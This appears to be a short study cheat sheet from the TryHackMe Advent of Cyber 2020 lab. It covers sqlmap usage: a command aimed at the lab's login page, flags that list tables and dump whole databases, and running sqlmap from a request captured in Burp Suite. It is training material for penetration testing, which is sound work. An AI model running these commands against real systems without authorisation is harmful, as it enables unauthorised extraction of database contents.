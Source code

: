 --- ---

<h2>Top Commands</h2>

SQLmap (URL)
```Terminal
sqlmap --url http://tbfc.net/login.php --tables --columns
```

- --tables    ---> Check tables
- --columns ---> Check columns

- --url = Provide URL for the attack
- --dbms = Tell SQLMap the type of database that is running
- --dump = Dump the data within the database that the application uses
- --dump-all = Dump the ENTIRE database
- --batch = SQLMap will run automatically and won't ask for user input

SQLmap(BurpSuite ---> Very Good)
```Terminal
sqlmap -r filename
```

- Use Burpsuite to intercept a request (ex: https://website.com/inurl?id=ELEMENT)
- Save the item
- Use the comment to launch SQLmap

- Screenshot
    ![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-5/foxyproxy.png)
	![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-5/bpsuite_2.png)
    ![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-5/bpsuite_3.png)

---

All Information ---> https://github.com/sqlmapproject/sqlmap

<iframe src="https://github.com/sqlmapproject/sqlmap" width="100%" height="1300"></iframe>